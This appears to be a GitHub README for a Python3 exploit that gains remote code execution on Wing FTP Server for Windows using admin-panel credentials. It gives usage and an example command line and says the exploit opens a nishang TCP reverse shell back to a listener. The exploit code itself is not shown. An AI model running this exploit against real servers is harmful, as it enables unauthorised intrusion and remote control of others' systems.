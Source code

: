 # Wing-FTP-RCE Authenticated
This is a Python3 exploit for the Wing FTP Server running on Windows that requires admin panel authentication.

## About the vulnerability
This exploit was discovered by Alex Haynes.

## How to run:
This exploit will invoke a nishang tcp reverse shell on the target. Start your listener before executing.
#Usage:
```
final.py <TARGET> <TARGET_PORT> <LOCAL_IP> <LOCAL_PORT> <USER> <PASSWORD>
```
#Example:
```
final.py 0.0.0.0 8000 127.0.0.1 9001 notcos coolpass
```
